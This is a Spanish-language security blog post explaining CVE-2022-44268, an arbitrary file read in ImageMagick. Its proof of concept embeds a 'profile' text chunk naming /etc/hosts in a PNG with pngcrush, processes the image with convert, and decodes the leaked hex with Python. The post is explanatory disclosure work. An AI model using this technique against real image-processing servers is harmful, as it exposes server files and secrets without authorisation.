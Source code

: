 ```yaml
---
title: ImageMagick - la vulnerabilidad oculta detrás de tus imágenes online
date: 2023-02-05 09:00:00 
categories: [HACKING]
tags: [hacking, vulnerabilidad]
description: Recientemente se han descubierto dos vulnerabilidades en ImageMagick 7.1.0-49 un DoS (CVE-2022-44267) y un Information Disclosure (CVE-2022-44268). Nos vamos a centrar en esta última ya que creo que es bastante más interesante.
image: /assets/41/preview1.png
--- 
```


Cuando se agrega un fragmento de texto (por ejemplo, tEXt), si la palabra clave es la cadena "profile" (sin comillas), ImageMagick interpreta la cadena de texto como un nombre de archivo y carga el contenido como un profile sin procesar (si el binario de ImageMagick tiene permisos para leerlo). 

El resultado es que un atacante podría aprovechar ésto para leer arbitrariamente ficheros de un servidor que utiliza ImageMagick para procesar imágenes...

La PoC es además supersencilla.

1. Primero instalamos las dependencias:

        $ apt-get install pngcrush imagemagick exiftool exiv2 -y

2. Añadimos el chunk de texto con el nombre del fichero que queremos leer:

        $ pngcrush -text a "profile" "/etc/hosts" hacker.png 

        Recompressing IDAT chunks in hacker.png to pngout.png
        Total length of data found in critical chunks            =    319742
        Best pngcrush method        =  10 (ws 15 fm 6 zl 9 zs 1) =    328105

        CPU time decode 0.043105, encode 0.648451, other 0.002684, total 0.696421 sec

3.  Ahora tratamos la imagen con ImageMagick para explotar la vulnerabilidad, en el ejemplo simplemente con el comando convert pero en un entorno real podría detonarse simplemente subiéndo la imágen a un servidor vulnerable:

        $ convert pngout.png oculto.png
        convert-im6.q16: keyword "Raw profile type ": bad character '0x20' `oculto.png' @ warning/png.c/MagickPNGWarningHandler/1668.

![Imagen 01](/assets/41/041.png)
    
Y ya está, ahora simplemente vemos el contenido incrustado en la imagen resultante (te lo resalto en amarillo):

    $ identify -verbose oculto.png
    Image:
    Filename: oculto.png
    Format: PNG (Portable Network Graphics)
    Mime type: image/png
    Class: DirectClass
    Geometry: 512x512+0+0
    Resolution: 118.11x118.11
    Print size: 4.33494x4.33494
    Units: PixelsPerCentimeter
    Colorspace: sRGB
    Type: TrueColor
    Base type: Undefined
    Endianness: Undefined
    Depth: 8-bit
    Channel depth:
        red: 8-bit
        green: 8-bit
        blue: 8-bit
    Channel statistics:
        Pixels: 262144
        Red:
        min: 0  (0)
        max: 255 (1)
        mean: 88.2626 (0.346128)
        standard deviation: 73.5068 (0.288262)
        kurtosis: -0.553267
        skewness: 0.75696
        entropy: 0.960805
        Green:
        min: 0  (0)
        max: 255 (1)
        mean: 120.885 (0.474058)
        standard deviation: 90.0684 (0.35321)
        kurtosis: -1.5098
        skewness: 0.223454
        entropy: 0.953738
        Blue:
        min: 0  (0)
        max: 255 (1)
        mean: 130.047 (0.50999)
        standard deviation: 85.4641 (0.335153)
        kurtosis: -1.51198
        skewness: 0.0835374
        entropy: 0.971014
    Image statistics:
        Overall:
        min: 0  (0)
        max: 255 (1)
        mean: 113.065 (0.443392)
        standard deviation: 83.0131 (0.325542)
        kurtosis: -1.33275
        skewness: 0.359084
        entropy: 0.961852
    Rendering intent: Perceptual
    Gamma: 0.454545
    Chromaticity:
        red primary: (0.64,0.33)
        green primary: (0.3,0.6)
        blue primary: (0.15,0.06)
        white point: (0.3127,0.329)
    Background color: white
    Border color: srgb(223,223,223)
    Matte color: grey74
    Transparent color: black
    Interlace: None
    Intensity: Undefined
    Compose: Over
    Page geometry: 512x512+0+0
    Dispose: Undefined
    Iterations: 0
    Compression: Zip
    Orientation: Undefined
    Profiles:
        Profile-icc: 672 bytes
    Properties:
        date:create: 2023-02-05T18:35:18+00:00
        date:modify: 2023-02-05T18:35:18+00:00
        exif:BitsPerSample: 8, 8, 8
        exif:ColorSpace: 1
        exif:DateTime: 2023:02:05 12:24:50
        exif:ExifOffset: 190
        exif:ImageLength: 512
        exif:ImageWidth: 512
        exif:Software: GIMP 2.10.30
        exif:thumbnail:BitsPerSample: 8, 8, 8
        exif:thumbnail:Compression: 6
        exif:thumbnail:ImageLength: 256
        exif:thumbnail:ImageWidth: 256
        exif:thumbnail:JPEGInterchangeFormat: 328
        exif:thumbnail:JPEGInterchangeFormatLength: 13885
        exif:thumbnail:PhotometricInterpretation: 6
        exif:thumbnail:SamplesPerPixel: 3
        icc:copyright: Public Domain
        icc:description: GIMP built-in sRGB
        icc:manufacturer: GIMP
        icc:model: sRGB
        png:bKGD: chunk was found (see Background color, above)
        png:cHRM: chunk was found (see Chromaticity, above)
        png:iCCP: chunk was found
        png:IHDR.bit-depth-orig: 8
        png:IHDR.bit_depth: 8
        png:IHDR.color-type-orig: 2
        png:IHDR.color_type: 2 (Truecolor)
        png:IHDR.interlace_method: 0 (Not interlaced)
        png:IHDR.width,height: 512, 512
        png:pHYs: x_res=11811, y_res=11811, units=1
        png:text: 23 tEXt/zTXt/iTXt chunks were found
        png:tIME: 2023-02-05T18:35:18Z
        Raw profile type: 

        220
    3132372e302e302e31096c6f63616c686f73740a3132372e302e312e31096b79616b750a
    0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c65
    20666f7220495076362063617061626c6520686f7374730a3a3a3120202020206970362d
    6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a30206970362d6c
    6f63616c6e65740a666630303a3a30206970362d6d636173747072656669780a66663032
    3a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f7574
    6572730a

        signature: 1218350006b7307477b7ba227324971bbf78de7a384d3ab2c12b0984f6fade13
        unknown: 1
    Artifacts:
        filename: oculto.png
        verbose: true
    Tainted: False
    Filesize: 340862B
    Number pixels: 262144
    Pixels per second: 26.1417MB
    User time: 0.010u
    Elapsed time: 0:01.010
    Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org



¿Lo has visto verdad? En hexadecimal...

    $ python3 -c 'print(bytes.fromhex("texto_en_hexadecimal").decode("utf-8"))'


    $ python3 -c 'print(bytes.fromhex("3132372e302e302e31096c6f63616c686f73740a3132372e302e312e31096b79616b750a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a30206970362d6c6f63616c6e65740a666630303a3a30206970362d6d636173747072656669780a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a").decode("utf-8"))'
    127.0.0.1    localhost
    127.0.1.1    kyaku

    # The following lines are desirable for IPv6 capable hosts
    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters

Fuentes:

[https://www.metabaseq.com/imagemagick-zero-days/](https://www.metabaseq.com/imagemagick-zero-days/)

[https://github.com/agathanon/cve-2022-44268](https://github.com/agathanon/cve-2022-44268)

[https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)

